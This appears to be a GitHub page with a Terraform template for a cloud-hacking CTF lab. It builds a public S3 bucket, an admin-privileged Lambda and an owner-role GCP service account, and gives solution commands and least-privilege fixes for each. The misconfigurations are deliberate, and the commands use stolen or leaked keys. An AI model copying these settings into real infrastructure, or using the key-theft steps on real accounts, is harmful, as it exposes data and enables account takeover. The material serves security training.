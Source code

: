 # Terraform vulnerable lab template

## Terraform Setup (All-in-One cloud hacking Lab)

```
# main.tf
provider "aws" {
  region = "us-east-1"
}

provider "google" {
  credentials = file("gcp-creds.json")
  project     = "your-project-id"
  region      = "us-central1"
}

# Random suffix to avoid bucket naming conflicts
resource "random_id" "suffix" {
  byte_length = 4
}
```

## Beginner: "The Oversharing Bucket" (AWS S3)

Goal: Find/open S3 bucket with flag.txt.

## Terraform

```
resource "aws_s3_bucket" "beginner" {
  bucket = "rootme-beginner-${random_id.suffix.hex}"
  acl    = "public-read"  # Deliberately misconfigured

  tags = {
    Name = "Flag Storage"
  }
}

resource "aws_s3_bucket_object" "flag" {
  bucket = aws_s3_bucket.beginner.id
  key    = "flag.txt"
  content = "FLAG: S3_Leak_${random_id.suffix.hex}"
}
```

### Solution

```bash
aws s3 ls s3://rootme-beginner-[ID] --no-sign-request
aws s3 cp s3://rootme-beginner-[ID]/flag.txt - --no-sign-request
```

### Defensive fix

```
acl = "private"  # Correct setting
```

## Intermediate: "Lambda to EC2 Takeover" (AWS IAM)

Goal: From Lambda, steal IAM keys to access EC2.

## Terraform

```
# Overprivileged Lambda
resource "aws_iam_role" "lambda" {
  name = "overprivileged_lambda_role"
  assume_role_policy = jsonencode({
    Version = "2012-10-17"
    Statement = [{
      Action = "sts:AssumeRole"
      Effect = "Allow"
      Principal = { Service = "lambda.amazonaws.com" }
    }]
  })
}

resource "aws_iam_role_policy_attachment" "lambda_admin" {
  role       = aws_iam_role.lambda.name
  policy_arn = "arn:aws:iam::aws:policy/AdministratorAccess"  # Deliberately overprivileged
}

resource "aws_lambda_function" "vulnerable" {
  filename      = "lambda.zip"
  function_name = "leaky_lambda"
  role          = aws_iam_role.lambda.arn
  handler       = "index.handler"
  runtime       = "python3.8"
  environment {
    variables = {
      FLAG = "Lambda_Key_${random_id.suffix.hex}"
    }
  }
}

# EC2 instance to compromise
resource "aws_instance" "target" {
  ami           = "ami-0c55b159cbfafe1f0"
  instance_type = "t2.micro"
  tags = {
    Name = "Flag_EC2"
  }
}
```

### Solution

* Dump Lambda env vars (via RCE or AWS Console).
* Use stolen keys to query EC2:

```bash
export AWS_ACCESS_KEY_ID=...
export AWS_SECRET_ACCESS_KEY=...
aws ec2 describe-instances --region us-east-1
```

### Defensive fix

```
policy_arn = "arn:aws:iam::aws:policy/AWSLambdaBasicExecutionRole"  # Least privilege
```

## Advanced: "GCP Org Compromise" (Service Account Key)

Goal: Use leaked key to escalate to project owner.

## Terraform

```
# Leaky GCP Service Account
resource "google_service_account" "leaky" {
  account_id   = "leaky-sa-${random_id.suffix.hex}"
  display_name = "Leaky Service Account"
}

resource "google_project_iam_member" "owner" {
  project = "your-project-id"
  role    = "roles/owner"  # Deliberately overprivileged
  member  = "serviceAccount:${google_service_account.leaky.email}"
}

resource "google_service_account_key" "leaky_key" {
  service_account_id = google_service_account.leaky.name
  public_key_type    = "TYPE_X509_PEM_FILE"
}

output "leaky_key_json" {
  value     = google_service_account_key.leaky_key.private_key
  sensitive = true
}
```

###Solution:

1. Activate leaked key:

```bash
echo "$LEAKED_KEY_JSON" > creds.json
gcloud auth activate-service-account --key-file=creds.json
```

2. Exploit owner role:

```bash
gcloud projects get-iam-policy your-project-id  # Confirm access
gcloud compute instances list  # Dump all VMs
```

### Defensive fix

```
role = "roles/logging.viewer"  # Minimal permissions
```

## Deploy all challenges

1. Initialize Terraform:

```bash
terraform init
```

2. Deploy:

```bash
terraform apply -auto-approve
```

3. Destroy (After CTF):

```bash
terraform destroy -auto-approve
```


